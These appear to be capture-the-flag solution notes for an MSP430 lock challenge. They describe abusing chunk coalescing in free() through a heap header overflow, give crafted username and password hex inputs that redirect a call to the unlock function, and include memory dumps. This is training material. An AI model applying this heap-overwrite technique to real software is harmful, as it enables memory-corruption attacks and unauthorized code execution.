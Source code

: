 
###### Solution ######
1. Set 'Is Active' bit in Len to 0
2. If Prev is NOT active:
	1) (+4) prev_len += current_len + 0x06 (header_len)
	2) (+2) prev_next = current_next
	3) (+0) next_prev = current_prev
	4) current = prev
3. If Next is NOT active:
	1) (+4) current_len += next_len + 0x06 (header_len)
	2) (+2) current_next = next_next
	3) (+0) next_prev = current_addr (Relevant only in case the first if accure to)

We can overwrite 4 bytes the following way:
	overflow to the heap header:
		the wanted address to overwrite
		address pointed to value_to_overwrite len_2
		len_1
	after the function the address to overwrite will the the value given
	and and word after it will be hex(original_valie + 0x06 + len_1 + 0x06 + len_2)
	## Pay attention the len_2 should an odd value, we can make it odd by changing len_1 value which it does not metter if it's odd or not

We will use only the first 2 byte and overwrite the address using when calling to free to be the address of the unlock function
Username: 4242 6445 3c23 4242 4242 4242 4242 4242 aa46 0e24 1011
Password: 4141

Before free
	46a0: 1a47 0f4b b012 0845 0f4a b012 0845 3a41   .G.K...E.J...E:A
Before second jump
	hex(0x4508 + 0x06 + 0x1010) = 551e
	46a0: 1a47 0f4b b012 0845 0f4a dead 1e55 3a41   .G.K...E.J...U:A
	46a0: 1a47 0f4b b012 0845 0f4a 0e24 1e55 3a41   .G.K...E.J.$.U:A
After seconed jump
	dead is not a real address so the current next overrided with 0000
	46a0: 1a47 0f4b b012 0845 0f4a 0000 2455 3a41   .G.K...E.J..$U:A
	46a0: 1a47 0f4b b012 0845 0f4a 4242 6697 3a41   .G.K...E.JBBf.:A

hex(0x4508 + 0x06 + 0x1010 + 0x06 + 0x0f21)
46a0: 1a47 0f4b b012 0845 0f4a 4444 6a9b 3a41   .G.K...E.JDDj.:A
46a0: 1a47 0f4b b012 0845 0f4a b012 0e24 5051   .G.K...E.J...$PQ


###### /Solution ######

# Before malloc
2400: 0824 0010 0100 0000 0000 0000 0000 0000   .$..............
2410: 0000 0000 0000 0000 0000 0000 0000 0000   ................

# After first malloc (return 0x240e)
                          -Alloc Header-
     Base Header          Prev Next Len
2400: 0824 0010 0000 0000 0824 1e24 2100 0000   .$.......$.$!...
                                         Prev
2410: 0000 0000 0000 0000 0000 0000 0000 0824   ...............$
      Next Len (Circular)
2420: 0824 c81f 0000 0000 0000 0000 0000 0000   .$..............
2430: 0000 0000 0000 0000 0000 0000 0000 0000   ................
